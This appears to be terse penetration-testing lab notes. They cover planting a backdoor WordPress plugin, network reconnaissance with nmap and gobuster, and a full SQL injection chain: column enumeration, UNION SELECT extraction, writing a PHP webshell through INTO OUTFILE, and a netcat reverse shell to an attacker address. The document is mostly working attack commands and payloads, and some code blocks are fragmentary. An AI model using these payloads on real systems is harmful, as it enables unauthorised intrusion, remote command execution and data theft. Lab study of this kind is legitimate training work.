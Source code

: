upload plugin to wordpress
-  add to php backdoor or shell script
```
<?php
/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/

zip backdoor-plugin simple-backdoor-plugin.php
https://alvida-eatery.org/wp-admin/plugins.php?cplugin=php-backdoor-plugin&cmd=ls
https://alvida-eatery.org/wp-admin/plugins.php?cplugin=rev-shell
```

### VM 2
```
nmap 192.168.206.48
nmap -sT -A 192.168.206.48
nmap --script http-headers 192.168.206.48
gobuster dir -u http://192.168.206.48:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
sudo nmap -p80 --script=http-enum 192.168.206.48
whatweb 192.168.206.48
```

Increment until it errors when col does not exist
```
' ORDER BY 5-- //
' ORDER BY 6-- //
' ORDER BY 7-- //
' ORDER BY 8-- //
' ORDER BY 9-- //
' ORDER BY 10-- //
```

there are 6 cols - find the vulnerable one
```
%' UNION SELECT null, null, null, @@version, database(), user()  -- //
' union select null, null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

we find that 5th column is vulnerable
``' union select null, null, table_name, column_name, column_name, null from information_schema.columns where table_schema=database() -- //

``' UNION SELECT null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //

access script and inject reverse shell
```
http://192.168.206.48/webshell.php?cmd=ls
nc 192.168.45.194 4444 -e /bin/bash
```

